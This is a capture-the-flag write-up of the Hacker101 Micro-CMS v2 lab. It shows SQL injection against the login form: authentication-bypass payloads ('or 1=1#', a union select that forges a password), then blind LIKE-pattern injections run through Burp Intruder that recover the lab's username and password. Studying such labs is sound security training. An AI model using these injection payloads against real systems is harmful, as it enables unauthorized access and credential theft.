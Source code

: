 # Micro-CMS v2

The Changelog shows the security fixes in v2
<p align="center">
  <img src="https://github.com/lorenzoinvidia/CTFs-Writeups/blob/dev/Hacker101/Micro-CMSv2/src/1.png" alt="1" />
</p>

As said, editing pages require an admin login
<p align="center">
  <img src="https://github.com/lorenzoinvidia/CTFs-Writeups/blob/dev/Hacker101/Micro-CMSv2/src/2.png" alt="1" />
</p>

### SQLi vulnerability

By putting a **'** in the login fields an error shows up
```
Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1")
```

We find that
- The backend db is MariaDB, a MySQL like
- MariaDB is connected to python2.7 in file main.py with do_login( )
- The query is the following
```python
'SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')
```

A simple auth bypass results in an **Invalid password**
```
username = ' or 1=1#
password = t
```
<p align="center">
  <img src="https://github.com/lorenzoinvidia/CTFs-Writeups/blob/dev/Hacker101/Micro-CMSv2/src/3.png" alt="1" />
</p>

Otherwise in an **Unknown user**
```
username = ' or 1=2#
password
```
<p align="center">
  <img src="https://github.com/lorenzoinvidia/CTFs-Writeups/blob/dev/Hacker101/Micro-CMSv2/src/4.png" alt="1" />
</p>

The code evaluates True or False since the [execute](https://dev.mysql.com/doc/connector-python/en/connector-python-api-mysqlcursor-execute.html) method returns a Boolean value

We can bypass the auth as
```
username = ' union select 'ab' as password#
password = ab
```
<p align="center">
  <img src="https://github.com/lorenzoinvidia/CTFs-Writeups/blob/dev/Hacker101/Micro-CMSv2/src/5.png" alt="1" />
</p>

but the comment suggests to find a real username/password combination to get the flag

### Blind SQLi

We got no output but we can modify the query itself!

The [LIKE](https://duckduckgo.com/?t=ffab&q=like+sql+w3school&ia=') operator allows to match a pattern for the valid password

We can get **fist** and **last** character as
```
username = ' or password LIKE "x%"#
username = ' or password LIKE "%x"#
```
Where
- **%** matches zero, one or more characters
- **x** will be a char payload in Burp's Intruder

Following [python formatting](https://pyformat.info/) the query will match **x** if password contains it

Since **%** is filtered, it will be replaced with **%%** by the **replace('%', '%%')**

We find **e** as last character and **s** as first


We can get password **length** as
```
username = ' or length(password) "%y"#
```
Where
- **y** will be an int payload in Burp's Intruder

We find **9** as length filtering the results for **Invalid password**

Then the final query will be
```
username='or password like 's§_§§_§§_§§_§§_§§_§§_§e'#&password=a
```
Where
- **s** is the first character
- **_** matches one character
- **e** is the last character

We find password **stephanie**
<p align="center">
  <img src="https://github.com/lorenzoinvidia/CTFs-Writeups/blob/dev/Hacker101/Micro-CMSv2/src/6.png" alt="1" />
</p>


At the same way find the corresponding username with
```
username='or password='stephanie' and length(username)= §y§#&password=a
username='or password='stephanie' and username like '§_§§_§§_§§_§§_§§_§''#&password=a
```
We find username **pearly**
<p align="center">
  <img src="https://github.com/lorenzoinvidia/CTFs-Writeups/blob/dev/Hacker101/Micro-CMSv2/src/7.png" alt="1" />
</p>

By logging with **pearly:stephanie** we get the flag!
